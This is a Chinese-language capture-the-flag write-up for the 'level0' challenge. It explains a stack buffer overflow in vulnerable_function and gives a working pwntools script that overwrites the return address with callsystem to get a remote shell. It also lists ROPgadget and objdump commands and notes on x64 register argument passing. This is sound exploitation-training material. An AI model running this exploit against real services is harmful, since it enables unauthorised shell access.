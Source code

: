 1、进入main函数，发现main函数中调用vulnerable_function()函数，该函数会返回read(0,&buf,0x200)，点击查看buf，发现该buffer的数据空间大小为0x80，而可以读取的0x200个字节，存在缓冲区溢出漏洞。可以溢出覆盖返回地址，溢出的大小为0x80加上8个字节。最后加上返回的地址的值即可。IDA中查找字符串，发现/bin/sh，查看交叉引用，找到函数callsystem。该函数直接调用system("/bin/sh")，可以直接在溢出后写入该函数的起始地址。
2、linux改名命令mv 源文件名 目标文件名
0、x64程序中，一个寄存器占8位
3、64位程序是寄存器传参，与32位不同，无法直接传入，64位程序先把参数传到寄存器，前6个参数存储在寄存器中，传递顺序rdi,rsi,rdx,rcx,r8,r9.
4、system存在系统最高权限，与/bin/sh连在一起就可以提供一个shell，可以使用它进行查看/修改/操作等动作。
5、IDA中从数据空间大小上可以看出有个s，代表ebp，栈底，占8字节长度，其次是个r，r中存放的是返回地址，代表eip。

writeup第4个不懂



# coding=utf-8
from pwn import *    #导入pwntools中pwn包的所有内容
p = remote('111.198.29.45',33907)    # 链接服务器远程交互
elf = ELF('./level0')    # 以ELF文件格式读取level0文件
sysaddr = elf.symbols['callsystem']    # 获取ELF文件中callsystem的地址
# 先用0x88个无用字符覆盖buf和push的内容，再覆盖返回地址
payload = 'a'*(0x80 + 8) + p64(sysaddr)   
p.recv()    #接收输出
p.send(payload)    # 发送payload
p.interactive()    # 反弹shell进行交互


wp:
1、使用ROPgadget --binary level0 --string '/bin/sh'可以得到字符串地址。
2、使用ROPgadget --binary level0 --only 'pop|ret'可以得到pop|ret的返回值
3、使用objdump -d level0 | grep "plt"可得到plt表的地址
